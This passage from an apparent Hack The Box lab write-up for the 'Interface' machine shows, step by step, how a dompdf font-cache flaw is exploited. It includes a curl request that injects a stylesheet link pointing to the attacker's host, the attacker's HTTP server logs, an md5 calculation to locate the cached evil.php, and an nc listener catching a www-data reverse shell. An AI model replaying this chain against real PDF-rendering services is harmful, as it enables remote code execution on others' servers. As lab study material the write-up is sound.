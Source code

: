 4. Send Request

    ```console
    root@kali:~/htb/Machines/Interface# curl -s http://prd.m.rendering-api.interface.htb/api/html2pdf -d "{\"html\":\"<link rel=stylesheet href='http://10.10.16.11:8000/evil.css'>\"}"
    ```

    receive request:

    ```console
    root@kali:~/htb/Machines/Interface# python3 -m http.server 8000
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.129.228.208 - - [29/Jul/2023 16:10:12] "GET /evil.css HTTP/1.0" 200 -
    10.129.228.208 - - [29/Jul/2023 16:10:14] "GET /evil.php HTTP/1.0" 200 -
    ```

    check md5sum `md5(evil.php URL)`:

    ```console
    root@kali:~/htb/Machines/Interface# echo -n http://10.10.16.11:8000/evil.php | md5sum
    de89cf488fc6d524f124c4c2df823344  -
    ```

5. Execute Malicious PHP via Cached File

    listening reverse shell:

    ```console
    root@kali:~/htb/Machines/Interface# nc -lnvp 8888
    listening on [any] 8888 ...
    ```

    In this article,

    > Our “evil.php” is uploaded to /dompdf/lib/fonts/<font_name>_<font_weight/style>_<md5>.php.
    > For example, /dompdf/lib/fonts/evil_normal_2cddaeb743b6aeb5638ac0ac93c4c9f6.php.

    In this Machine case, Cached file is `vendor/dompdf/dompdf/lib/fonts/<font_name>_<font_weight/style>_<md5>.php` so URL Path is `/vendor/dompdf/dompdf/lib/fonts/evil_normal_de89cf488fc6d524f124c4c2df823344.php`.

    ```console
    root@kali:~/htb/Machines/Interface# curl -s http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/evil_normal_de89cf488fc6d524f124c4c2df823344.php
    ```

    listening shell:

    ```console
    root@kali:~/htb/Machines/Interface# nc -lnvp 8888
    listening on [any] 8888 ...
    connect to [10.10.16.11] from (UNKNOWN) [10.129.228.208] 34698
    bash: cannot set terminal process group (1312): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$
    ```

got shell.
